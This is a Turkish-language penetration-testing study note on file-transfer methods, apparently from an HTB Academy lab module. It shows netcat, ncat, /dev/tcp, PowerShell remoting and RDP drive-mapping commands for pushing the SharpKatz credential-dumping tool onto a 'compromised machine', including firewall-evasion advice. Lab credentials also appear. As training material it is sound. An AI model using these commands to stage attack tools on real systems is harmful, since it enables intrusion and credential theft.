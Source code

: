 ```yaml
---
glightbox: true
icon: material/circle-small
---
```


# Miscellaneous File Transfer Methods

## Netcat

Netcat (`nc`), TCP veya UDP kullanarak ağ bağlantılarından okumak ve bu bağlantılara yazmak için kullanılan bir bilgisayar ağı yardımcı programıdır.

Orijinal Netcat, 1995 yılında Hobbit tarafından piyasaya sürüldü. Bu aracın esnekliği ve kullanışlılığı, Nmap projesini Netcat aracının daha modern ve gelişmiş bir versiyonu olan Ncat aracını geliştirmeye yöneltti.

### NetCat - Compromised Machine - Listening on Port 8000

```bash
nc -l -p 8000 > SharpKatz.exe
```

### Ncat - Compromised Machine - Listening on Port 8000

```bash
ncat -l -p 8000 --recv-only > SharpKatz.exe
```

### NetCat - Attack Host - Sending File to Compromised machine

```bash
nc -q 0 192.168.49.128 8000 < SharpKatz.exe
```

### Ncat - Attack Host - Sending File to Compromised machine

```bash
ncat --send-only 192.168.49.128 8000 < SharpKatz.exe
```

### Attack Host - Sending File as Input to Netcat

Ele geçirdiğimiz makinede gelen bağlantıları dinlemek yerine, dosya aktarım işlemini gerçekleştirmek için saldırı makinemizde bulunan bir porta bağlanabiliriz. Bu yöntem, gelen bağlantıları engelleyen bir güvenlik duvarının olduğu senaryolarda kullanışlıdır. Örneğin 443 numaralı portu dinleyelim ve ilgili dosyayı Netcat aracına girdi olarak gönderelim:

```bash
sudo nc -l -p 443 -q 0 < SharpKatz.exe
```

### Compromised Machine Connect to Netcat to Receive the File

```bash
nc 192.168.49.128 443 > SharpKatz.exe
```

### Attack Host - Sending File as Input to Ncat

```bash
sudo ncat -l -p 443 --send-only < SharpKatz.exe
```

### Compromised Machine Connect to Ncat to Receive the File

```bash
ncat 192.168.49.128 443 --recv-only > SharpKatz.exe
```

### Compromised Machine Connecting to Netcat Using /dev/tcp to Receive the File

Ele geçirdiğimiz makinede Netcat veya Ncat yoksa [/dev/tcp](https://tldp.org/LDP/abs/html/devref1.html) kullanılabilir:

```bash
cat < /dev/tcp/192.168.49.128/443 > SharpKatz.exe
```

## PowerShell Session File Transfer

Dosya aktarımı için HTTP, HTTPS veya SMB protokollerinin kullanılamadığı senaryolar ile karşılaşabiliriz. Böyle durumlarda, dosya aktarım işlemlerini gerçekleştirmek için [PowerShell Remoting](https://docs.microsoft.com/en-us/powershell/scripting/learn/remoting/running-remote-commands?view=powershell-7.2) (WinRM) kullanılabilir.

PowerShell Remoting, PowerShell oturumlarını kullanarak uzaktaki bir bilgisayarda komut dosyaları veya komutlar yürütmemize olanak tanır. PowerShell, uzaktan iletişimi etkinleştirmek HTTP ve HTTPS dinleyicileri oluşturur. Dinleyiciler, HTTP için 5985/tcp ve HTTPS için 5986/tcp portlarında çalışır.

Uzak bir bilgisayarda PowerShell Remoting oturumu oluşturmak için aşağıdakiler gereklidir:

* Yönetici erişimine sahip olmak.
* Remote Management Users grubunun üyesi olmak veya oturum yapılandırmasında PowerShell Remoting için açık izinlere sahip olmak.

Örneğin `DC01` bilgisayarından `DATABASE01` bilgisayarına (ve tersi) dosya aktarmamız gereksin. Bu örnekte `DC01` bilgisayarında Administrator olarak bir oturumumuz bulunmaktadır. Aynı zamanda kullanıcı `DATABASE01` üzerinde yönetici haklarına sahip ve PowerShell Remoting etkin durumdadır.

Aşağıda verilen komut, `DATABASE01` bilgisayarında 5985/tcp WinRM açık olup olmadığını `DC01` bilgisayarından test etmektedir:

```powershell
Test-NetConnection -ComputerName DATABASE01 -Port 5985
```

```text title="Output"
ComputerName     : DATABASE01
RemoteAddress    : 192.168.1.101
RemotePort       : 5985
InterfaceAlias   : Ethernet0
SourceAddress    : 192.168.1.100
TcpTestSucceeded : True
```

Bu oturum halihazırda `DATABASE01` üzerinde gerekli ayrıcalıklara sahip olduğundan kimlik bilgilerinin belirtilmesine gerek yoktur. Aşağıdaki örnekte `DATABASE01` adlı uzak bilgisayarda bir oturum oluşturulmakta ve sonuçlar bir değişkende saklanmaktadır:

```powershell
$Session = New-PSSession -ComputerName DATABASE01
```

### Copy samplefile.txt from our Localhost to the DATABASE01 Session

```powershell
Copy-Item -Path "C:\samplefile.txt" -ToSession $Session -Destination "C:\Users\Administrator\Desktop\"
```

### Copy DATABASE.txt from DATABASE01 Session to our Localhost

```powershell
Copy-Item -Path "C:\Users\Administrator\Desktop\DATABASE.txt" -Destination "C:\" -FromSession $Session
```

## RDP

Bir Linux klasörünü `rdesktop` aracını kullanarak bağlamak için aşağıdaki komut kullanılabilir:

```bash
rdesktop 10.10.10.132 -d HTB -u administrator -p 'Password0@' -r disk:linux='/home/user/rdesktop/files'
```

!!! warning "Client Hostname"

    Bağlantının başarısız olması durumunda `-n <hostname>` seçeneği ile makine adını belirtmek gerekebilir. Ek olarak, bağlantının hangi hesap türü için (local, domain) yapıldığı da kontrol edilmelidir. Örneğin `username` yerine `.\\username` şeklinde kullanmak gerekebilir.

Bir Linux klasörünü `xfreerdp` aracını kullanarak bağlamak için aşağıdaki komut kullanılabilir:

```bash
xfreerdp /dynamic-resolution /v:10.10.10.132 /d:HTB /u:administrator /p:'Password0@' /drive:linux,/home/plaintext/htb/academy/filetransfer
```

Dizine erişmek için `tsclient` (Terminal Server Client) yoluna bağlanabiliriz:

![](../assets/images/tsclient.jpg)

Alternatif olarak [mstsc.exe](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/mstsc) uzak masaüstü istemcisi kullanılabilir:

![](../assets/images/rdp.png)

Sürücüyü seçtikten sonra uzak oturumda bu sürücüyle etkileşime geçebiliriz. Bu sürücü, hedef bilgisayarda oturum açan diğer kullanıcılar tarafından -RDP oturumunu ele geçirmeyi başarsalar bile- erişilemez.

## Practice Makes Perfect

Bu modülde öğrenilen bilgiler aşağıdaki modüllerde de kullanışlı olacaktır:

* Active Directory Enumeration & Attacks
* Pivoting, Tunnelling, and Port Forwarding
* Attacking Enterprise Networks
* Shells & Payloads
